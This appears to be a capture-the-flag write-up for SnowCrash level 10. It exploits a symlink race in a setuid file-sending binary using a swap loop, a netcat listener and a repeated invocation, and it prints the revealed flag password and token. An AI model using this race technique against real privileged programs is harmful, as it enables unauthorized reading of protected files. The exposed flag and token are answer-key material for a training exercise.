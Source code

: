# Level10

Now enumerate:

    level10@SnowCrash:~$ ls -al
	total 28
	drwxrwxrwx+ 1 level10 level10   140 Apr 24 23:04 .
	d--x--x--x  1 root    users     340 Aug 30  2015 ..
	-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
	-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
	-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
	-r-x------  1 level10 level10   675 Apr  3  2012 .profile
	-rw-------  1 flag10  flag10     26 Mar  5  2016 token
Let's see what we got here:

	level10@SnowCrash:~$ ./level10
	./level10 file host
	sends file to host if you have access to it
	level10@SnowCrash:~$ cat token
	cat: token: Permission denied
	level10@SnowCrash:~$ ./level10 token 127.0.0.1
	You don't have access to token
	level10@SnowCrash:~$ strings level10
	%s file host
	sends file to host if you have access to it
	Connecting to %s:6969 ..
	Unable to connect to host %s
	.*( )*.

Alright, for this case, we are gonna use 3 terminal in ssh and create a script:

    while true
	do
		ln -fs /dev/null /tmp/crack;
		ln -fs ~/token /tmp/crack;
	done

First one will listen on 6969,

    nc -lk 6969
Second will send the script via level10:
`while true; do ./level10 /tmp/crack  127.0.0.1; done `

and Third will run the script

    bash /tmp/crack
    flag10 : woupa2yuojeeaaed06riuj63c
    Check flag.Here is your token : feulo4b72j7edeahuete3no7c
